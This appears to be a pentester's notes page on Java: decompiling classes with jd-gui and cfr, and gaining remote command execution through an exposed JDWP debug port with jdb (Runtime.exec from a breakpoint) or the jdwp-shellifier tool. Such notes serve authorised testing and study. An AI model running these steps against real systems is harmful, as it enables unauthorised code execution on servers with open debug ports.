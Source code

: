 # Java


## Decompile Java code

I use two tools to decompile Java classes (`.class`, `.jar`, `.war`, ...):

- [`jd-gui`](http://java-decompiler.github.io/): it's quick and easy to use with
its graphical interface. I use it with a small codebase
- [`cfr`](https://www.benf.org/other/cfr/): CFR is a command line tool and it's
focused on modern Java features. I use it when JD-Gui got troubles with large or
new Java codebase.

```bash
java -jar cfr-0.150.jar /path/to/jar --outputdir /path/output/dir
```


## Java Debug Wire Protocol (JDWP)

`JWDP` is the protocol used for communication between a debugger and a Java app (JVM).


### Manual exploitation
It's possible to execute shell commands using `jdb`:

```bash
jdb -attach 8000
```

Then you need to find a good java thread to stop in and execute you command. It
appears that the method `indexOf` of the `String` class is a good candidate:

```bash
trace go methods
# wait that the jdb dies
stop in java.lang.String().indexOf(int)
print new java.lang.Runtime().exec("<cmd>")
```

This should execute you command with the privilege of the Java application. But
be careful, the manual method often fails.


### jdwp-shellifier
`jdwp-shellifier` is an exploitation tool to exploit `JWDP`. It's available on
[github](https://github.com/IOActive/jdwp-shellifier).

Again we use the `indexOf` method to break on, it's possible to use an other one.

```bash
git clone https://github.com/IOActive/jdwp-shellifier
cd jdwp-shellifier
python jdwp-shellifier.py -t <ip> - p <port> --break-on "java.lang.String.indexOf" --cmd "<cmd>"
```
